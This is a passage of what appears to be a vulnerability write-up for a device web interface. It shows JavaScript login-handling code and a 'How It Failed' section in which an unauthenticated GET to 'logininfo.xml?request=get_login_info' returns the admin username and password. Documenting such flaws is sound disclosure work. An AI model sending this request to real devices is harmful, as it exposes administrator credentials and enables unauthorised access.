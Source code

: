 ```js
}
```

`get_login_info_result()`

```js
function get_login_info_result(http_req){
	//...
	var my_xml = http_req.responseXML;

	if (check_user_info(my_xml.getElementsByTagName("redirect_page")[0])){

		storage_user.put("id", get_node_value(my_xml, "user_name"));
		storage_user.put("tok", get_node_value(my_xml, "user_pwd"));

		load_webfile_settings();
	}
}
```

`check_user_info()`

```js
/**
 *	check_user_info() : to check if the user has login yet
 *
 *	Parameter(s) :
 *		redirect_page : a XML's element object which contains a redirect page
 *
 * Return :	True or False
 * 	
 **/
function check_user_info(redirect_page){
	var which_page;
	
	if (redirect_page != null){	
		which_page = redirect_page.firstChild.nodeValue;
		location.href = html_obj.get_value(which_page);				
		return 0;
	}
	
	return 1;
}
```
### How It Failed

When `get_login_info()` `GET`

```
http://[ip]:[port]/logininfo.xml?request=get_login_info
```

We get

```xml

<?xml version="1.0"?>
<root>
	<user_name>admin</user_name>
	<user_pwd>t</user_pwd>
	<volid>1</volid>
</root>
```
